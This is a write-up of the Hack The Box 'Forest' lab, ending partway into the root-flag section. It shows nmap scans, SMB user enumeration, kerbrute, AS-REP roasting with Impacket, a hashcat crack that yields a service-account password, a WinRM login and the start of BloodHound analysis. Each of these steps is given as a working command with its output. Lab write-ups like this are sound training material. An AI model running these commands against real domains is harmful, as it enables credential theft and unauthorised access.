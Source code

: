 # Forest

# User Flag

## NMAP Enumeration

NMAP All Port Scan:

```bash
sudo nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.10.161

# Output
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49671/tcp open  unknown          syn-ack ttl 127
49674/tcp open  unknown          syn-ack ttl 127
49675/tcp open  unknown          syn-ack ttl 127
49680/tcp open  unknown          syn-ack ttl 127
49700/tcp open  unknown          syn-ack ttl 127
49941/tcp open  unknown          syn-ack ttl 127
```

NMAP Service Scan:

```bash
nmap -sV -sC -Pn -v -oN nmap-report 10.10.10.161 -p 88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49671,49674,49675,49680,49700,49941

# Output
PORT      STATE SERVICE      VERSION
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-06-02 14:38:23Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49674/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc        Microsoft Windows RPC
49680/tcp open  msrpc        Microsoft Windows RPC
49700/tcp open  msrpc        Microsoft Windows RPC
49941/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-02T14:39:14
|_  start_date: 2024-06-02T14:28:31
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-06-02T07:39:17-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2h26m53s, deviation: 4h02m31s, median: 6m52s
```

## SMB Enumeration

Could not list any shares with `smbmap`, `smbclient` or `crackmapexec`.

List users with `crackmapexec`:

```bash
crackmapexec smb 10.10.10.161 --users

# Output
SMB         10.10.10.161    445    FOREST           [*] Trying with SAMRPC protocol
SMB         10.10.10.161    445    FOREST           [+] Enumerated domain user(s)
SMB         10.10.10.161    445    FOREST           htb.local\Administrator                  Built-in account for administering the computer/domain                                                                                                                               
SMB         10.10.10.161    445    FOREST           htb.local\Guest                          Built-in account for guest access to the computer/domain                                                                                                                             
SMB         10.10.10.161    445    FOREST           htb.local\krbtgt                         Key Distribution Center Service Account
SMB         10.10.10.161    445    FOREST           htb.local\DefaultAccount                 A user account managed by the system.
SMB         10.10.10.161    445    FOREST           htb.local\$331000-VK4ADACQNUCA           
SMB         10.10.10.161    445    FOREST           htb.local\SM_2c8eef0a09b545acb           
SMB         10.10.10.161    445    FOREST           htb.local\SM_ca8c2ed5bdab4dc9b           
SMB         10.10.10.161    445    FOREST           htb.local\SM_75a538d3025e4db9a           
SMB         10.10.10.161    445    FOREST           htb.local\SM_681f53d4942840e18           
SMB         10.10.10.161    445    FOREST           htb.local\SM_1b41c9286325456bb           
SMB         10.10.10.161    445    FOREST           htb.local\SM_9b69f1b9d2cc45549           
SMB         10.10.10.161    445    FOREST           htb.local\SM_7c96b981967141ebb           
SMB         10.10.10.161    445    FOREST           htb.local\SM_c75ee099d0a64c91b           
SMB         10.10.10.161    445    FOREST           htb.local\SM_1ffab36a2f5f479cb           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxc3d7722           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxfc9daad           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxc0a90c9           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox670628e           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox968e74d           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox6ded678           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox83d6781           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxfd87238           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxb01ac64           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox7108a4e           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox0659cc1           
SMB         10.10.10.161    445    FOREST           htb.local\sebastien                      
SMB         10.10.10.161    445    FOREST           htb.local\lucinda                        
SMB         10.10.10.161    445    FOREST           htb.local\svc-alfresco                   
SMB         10.10.10.161    445    FOREST           htb.local\andy                           
SMB         10.10.10.161    445    FOREST           htb.local\mark                           
SMB         10.10.10.161    445    FOREST           htb.local\santi
```

## Kerberos - ASREPRoasting

Enumerate users with kerbrute using the domain details discovered during the NMAP scans and user list found during SMB enumeration:

```bash
./kerbrute_linux_amd64 userenum --dc 10.10.10.161 -d htb.local -o kerbrute-user-enum userlist

# Output
2024/06/02 15:51:48 >  [+] VALID USERNAME:       Administrator@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       HealthMailboxc0a90c9@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       HealthMailboxc3d7722@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       HealthMailboxfc9daad@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       HealthMailbox670628e@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       HealthMailbox6ded678@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       HealthMailbox968e74d@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       HealthMailbox83d6781@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       HealthMailboxfd87238@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       HealthMailboxb01ac64@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       lucinda@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       sebastien@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       HealthMailbox7108a4e@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       HealthMailbox0659cc1@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       andy@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       svc-alfresco@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       mark@htb.local
2024/06/02 15:51:48 >  [+] VALID USERNAME:       santi@htb.local
```

Impacket has a tool called "GetNPUsers.py" (located in impacket/examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we already enumerated via Kerbrute:

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -usersfile userlist -no-pass -request -outputfile kerberos-users-found

$krb5asrep$23$svc-alfresco@HTB.LOCAL:841b9616e7c6070884b1e557feeda8d8$04fb0e2e3439463928598f3885c116196723c90aacadd58a18661a4cbab8a1c200cf5f3c9c82bd4a53322a812e4a4740c0136b419f5bb5570758422877f70135fcbc13b3a9df4a49c43ccb79310b9548b0a71eabbf855773137d1f22ee9e6b8c3f3a94d8ae23469413bdf0c4b2de471a64cd293efd1040214d162017740d873c3ef94504aa891691d5be5bc09e8a61dbc31304e0e4479422dddbe8e33aaf7527971afdc073429f09ed7abf6986587ee07d08bd9002bac8e1924e60cab4d04fd40c665126acc7fcc5e6a6befb2a3ba3250ba809b959a577ba12ac7a6f000093a342e2fcad7989
```

We obtained the TGT ticket for the `svc-alfresco` account, which is stored in the output file and used `hashcat` to crack the "Kerberos 5 AS-REP etype 23":

```bash
hashcat64.exe -m 18200 -a 0 hash.txt rockyou.txt -o cracked.txt
```

New set of credentials: `svc-alfresco:s3rvice`

In the NMAP output, I can see that port 5985 is open. I used `evil-winrm` to retrieve the user flag:

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> dir


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/2/2024   7:29 AM             34 user.txt
```

# Root Flag

## Bloodhound 

1. Upload `SharpHound.ps1` or run `bloodhound.py` to generate ZIP file.
2. Start neo4j database
3. `Bloodhound` Run this on your attacker machine
4. Inside of Bloodhound, import the `.zip` folder.

Search for our AD account `svc-alfresco@htb.local` in Bloodhound in the search bar. Next, right click the user node and marked as owned. In the Queries tab, I selected the pre-built query "Shortest Path from Owned Principals".

![BloodHound](https://github.com/timmccann222/Public-Writeups-Library/blob/main/HackTheBox/Windows%20Machines/Forest/Images/Bloodhound.png)

From the above figure, we can see that svc-alfresco is a member of the group `Service Accounts` which is a member of the group `Privileged IT Accounts`, which is a member of `Account Operators`. 













